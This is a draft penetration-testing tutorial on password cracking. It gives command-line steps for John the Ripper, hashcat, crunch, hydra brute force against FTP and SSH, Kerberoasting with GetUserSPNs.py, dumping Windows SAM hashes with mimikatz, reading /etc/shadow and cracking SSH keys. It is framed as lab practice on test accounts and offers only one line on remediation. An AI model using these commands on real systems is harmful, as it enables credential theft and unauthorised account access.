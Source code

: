 ```yaml
---
title: Password Cracking Tools and Techniques
summary: Use of different tools to used for cracking password
description: Use of different tools to used for cracking password
slug: '/password-cracking-tools-and-techniques'
tags: ['ethical hacking', 'penetration testing', 'john the ripper', 'hashcat']
draft: true
---
```


## Intro

### Dictionary Attacks

> CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper.

| Type            | Path                                |
| --------------- | ----------------------------------- |
| John The Ripper | /usr/share/john/password.lst        |
| Rock You        | /usr/share/wordlists/rockyou.txt.gz |

```bash
locate wordlists

gzip -d /usr/share/wordlists/rockyou.txt.gz rockyou.txt
or
gunzip /usr/share/wordlists/rockyou.txt.gz rockyou.txt
```

## Exploration

### Linux

In Linux, the `/etc/passwd` file contains potentially important metadata in the GECOS field, including full name, room number, work phone, home phone, and others. Linux stores password hashes in the `/etc/shadow` file, which is why you need to use the sudo command to view it.

```bash
cat /etc/passwd
sudo cat /etc/shadow
```

The `unshadow` utility combines the /etc/passwd and /etc/shadow files. This is done so that John the Ripper can attempt to crack the password with information from both files, using a single file.

```bash
sudo unshadow /etc/passwd /etc/shadow > combined.txt
```

## Exploitation

### Linux Password

> Kali Linux 2021.1 changed the hash function for passwords from sha512crypt (listed as $6$ in the /etc/shadow file) to yescrypt (listed as $y$ in the /etc/shadow file).

```bash
sudo adduser vulnuser (room number: 8848.86 password vulnuser8848.86)
# [Your First Name] user a password of [Your Second Name] (you will not
# see anything on the screen when you type the password). Press ENTER for all the subsequent
# prompts (Full Name, Room Number, Work Phone, Home Phone, and Other) until the last prompt,
# which asks “Is the information correct? [Y/n].
```

#### John The Ripper

> John the Ripper will not attempt to crack a password it has already cracked.

```bash
sudo john --wordlist=/usr/share/john/password.lst --format=crypt combined.txt
# By the time you are reading this, support for the $y$ hashes might
# be incorporated into John the Ripper, which would mean you could leave off --format=crypt
# for some speedup
sudo john --show --format=crypt combined.txt # See all passwords already cracked.
sudo rm /root/.john/john.pot # To remove remembered password.

sudo john --format=crypt combined.txt # By default single crack mode, uses the GECOS field, without wordlist.

sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt combined.txt
```

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 faiz.txt
```

#### hashcat

```bash
hashcat -m 13100 hash passlist.txt # -m refers to hash type
```

#### hydra

```bash
hydra -L username.txt -P /usr/share/wordlists/rockyou.txt ftp <target-ip-addr> -vV # Target FTP
  -L username file
  -l username
  -P password file
  -p password

hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-ip-addr> -vV
```

#### GetUserSPNs.py

> Note: If there is misconfigured account, we can obtain the credentials from Active Directory using `GetUserSPNs`.

```bash
GetUserSPNs.py -dc-ip <target-windows-ip-addr> <host>/<user>:<pass> -request
```

### Windows Password

Creating user:

- Click the **Start** button or in the search box, type **Computer Management**, and select **Computer Management**. This opens the **Computer Management Console**.
- Expand **Local Users and Groups** in the pane at the left.
- Click **Users** to see all the current local user accounts.
- Right-click on a blank area in the right pane and select **New User**.
- Fill in the fields, creating a four-digit password with just lowercase letters.
- Clear the checkbox next to User Must Change Password At Next Logon and click the **Create**

```powershell
reg save hklm\SAM sam.hiv
reg save hklm\SYSTEM system.hiv

mimikatz
> privilege::debug
> token::elevate

# Send the next command’s output to a text file called hashes.txt:
> log hashes.txt

# Output the usernames and hashes for all accounts on the system:
> lsadump::sam sam.hiv system.hiv
```

e.g. windowshashes.txt

```txt
Beatles:5be2f274f2f80c5d4d0c597f023f4f61::::
StarWars:b7c899154197e8a2a33121d76a240ab5::::
```

#### John The Ripper

```bash
sudo crunch 4 4 | sudo john --format=NT windowshashes.txt --stdin # Brute force of 4 character.

sudo john --format=NT windowhashes.txt

sudo john --show --format=NT windowshashes.txt
```

### SSH Pass key

```bash
./opt/john/ssh2john.py id_rsa > ssh_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
```

## Remediation

- Account Lockout.
